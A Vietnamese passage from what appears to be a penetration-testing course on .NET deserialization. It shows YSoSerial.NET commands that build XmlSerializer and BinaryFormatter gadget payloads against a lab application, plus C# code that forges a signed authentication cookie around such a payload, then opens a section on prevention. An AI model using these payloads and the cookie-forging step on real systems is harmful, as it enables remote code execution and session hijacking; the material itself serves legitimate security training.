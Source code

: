 ### Ví dụ 2: XML, Tính năng Tee Import
Trong ví dụ này, chúng ta sẽ sử dụng YSoSerial.NET để tạo payload cho lỗ hổng thứ hai liên quan đến tính năng nhập khẩu của TeeTrove, nơi dữ liệu XML được sử dụng để deserialization với `XmlSerializer`. Câu lệnh sẽ thay đổi formatter từ `Json.Net` thành `XmlSerializer`:
```
PS C:\htb> .\ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad" -o Raw
```
Kết quả đầu ra YSoSerial.NET cung cấp sẽ tương tự như payload thủ công, nhưng lần này dữ liệu XML sẽ được bọc trong một `ResourceDictionary`. Tuy nhiên, trong trường hợp này, chúng ta không thể chỉ sao chép và dán payload vì nó cần được chỉnh sửa thêm, như đã được giải thích trong phần trước về việc phải đổi tên các node để phù hợp với yêu cầu của ứng dụng TeeTrove.

### Ví dụ 3: Binary, Authentication Cookie
Cuối cùng, chúng ta sẽ sử dụng YSoSerial.NET để khai thác cookie xác thực, nơi `BinaryFormatter` được sử dụng để (de)serialization. Câu lệnh tạo payload cho `BinaryFormatter` rất đơn giản:
```
PS C:\htb> .\ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c 'notepad' -o base64
```
Tuy nhiên, như bạn có thể mong đợi, payload này sẽ không hoạt động do cơ chế xác thực cookie trước khi deserialization. Payload này cần phải được điều chỉnh để phù hợp với TeeTrove, nhưng điều này không quá khó khi chúng ta có mã nguồn decompiled của ứng dụng giúp chúng ta trong quá trình phát triển. Mã nguồn bổ sung để chuyển đổi payload YSoSerial.NET thành một cookie hợp lệ như sau:

```csharp
private static readonly string AUTH_COOKIE_SECRET = "916344<SNIP>";
private static string createSHA256HashB64(string session_b64)
{
    // Mã hóa SHA256 hash ở đây
}

static void Main(string[] args)
{
    string ysoserial_payload_b64 = "AAEAAAD/////AQAAAAAAA<SNIP>";
    string authCookieVal = ysoserial_payload_b64 + "." + createSHA256HashB64(ysoserial_payload_b64);
    Console.WriteLine(authCookieVal);
}
```

Với chương trình ngắn gọn này để biến đổi payload YSoSerial.NET thành một payload có thể sử dụng trong TeeTrove, việc khai thác sẽ hoạt động như mong đợi. Tuy nhiên, như đã đề cập trước đó, việc hiểu cách thức hoạt động của các cuộc tấn công là rất quan trọng để chúng ta có thể điều chỉnh payload sao cho phù hợp trong các tình huống cụ thể mà chúng ta gặp phải.

---
# 11. Ngăn chặn các lỗ hổng Deserialization

**Giới thiệu**  
Khi đã đề cập đến việc đánh giá lỗ hổng và phát triển khai thác, chúng ta sẽ chuyển sang cái nhìn từ phía người bảo vệ/phát triển và thảo luận về cách ngăn ngừa các lỗ hổng deserialization.

#### Hướng dẫn ngăn ngừa lỗ hổng deserialization
